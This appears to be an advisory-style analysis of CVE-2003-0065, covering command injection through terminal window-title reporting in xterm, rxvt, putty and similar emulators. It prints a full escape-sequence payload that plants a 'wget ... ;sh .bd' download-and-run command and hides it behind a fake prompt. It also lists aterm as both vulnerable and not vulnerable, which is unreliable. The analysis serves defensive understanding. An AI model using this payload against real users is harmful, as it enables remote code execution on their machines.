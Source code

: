 The provided content is a detailed analysis of vulnerabilities in terminal emulators, including those associated with CVE-2003-0065.

**CVE-2003-0065** specifically relates to the **Window Title Reporting vulnerability** in **uxterm**, as indicated in the "Vulnerability Index" section.

Here's a breakdown of the relevant information:

**Root Cause of Vulnerability:**
- The vulnerability stems from the ability of certain terminal emulators, including uxterm, to report the current window title by placing it directly on the command line when a specific escape sequence is received. This is a feature intended for user convenience, but its implementation leads to the vulnerability.

**Weaknesses/Vulnerabilities:**
- **Unsanitized Output:** The core issue is that the window title, which can be set by an attacker via escape sequences, is not sanitized before being placed on the command line.
- **Command Injection:** An attacker can embed arbitrary commands within the window title. When the user requests the window title to be reported and presses "enter," these commands will be executed.

**Impact of Exploitation:**
- **Arbitrary Command Execution:** An attacker can achieve arbitrary command execution on the user's system by embedding malicious commands within the window title and tricking the user into pressing "enter".
- **System Compromise:** Successful exploitation can lead to a full system compromise.

**Attack Vectors:**
- **Malicious Escape Sequences:** An attacker needs to be able to display arbitrary data to the victim's terminal emulator. This can be achieved through various means, such as:
    - Vulnerable logging systems (e.g., syslog daemons, Apache error logs)
    - Network tools with vulnerable responses (e.g., wget, curl, ftp, telnet)
    - Multi-user system messages
    - Email clients displaying saved attachments

**Required Attacker Capabilities/Position:**
- **Ability to Send Data to the Terminal:** The attacker must be able to send text data containing malicious escape sequences to the user's terminal.
- **Social Engineering:** The attacker often needs to employ social engineering techniques to encourage the user to press "enter" after the title is reported, thus executing the injected command.
- **No Direct Access Required:**  The attacker does not need direct access to the system, they can exploit the vulnerability remotely.

**Technical Details:**
- The escape sequence to report the window title is: `\e[21t`.
- The attacker injects commands by setting the window title to a malicious command string via escape sequences.
- The attacker can use techniques like setting the foreground/background colors to be identical or inserting a fake prompt before reporting the title to conceal the injected command.
- Example of a malicious sequence:
   ```
   echo -e "\e]2;;wget 127.0.0.1/.bd;sh .bd;exit;\a\e[21t\e]2;xterm\aPress Enter>\e[8m;"
   ```
  - This will set the window title to a malicious wget and shell command and when the user reports the title it will run the command and then hide it with the "invisible" attribute.

The document also notes that several terminal emulators were vulnerable to this issue including: xterm, dtterm, uxterm, rxvt, aterm, Eterm, hanterm, and putty.  While gnome-terminal, konsole, SecureCRT, and aterm were not vulnerable.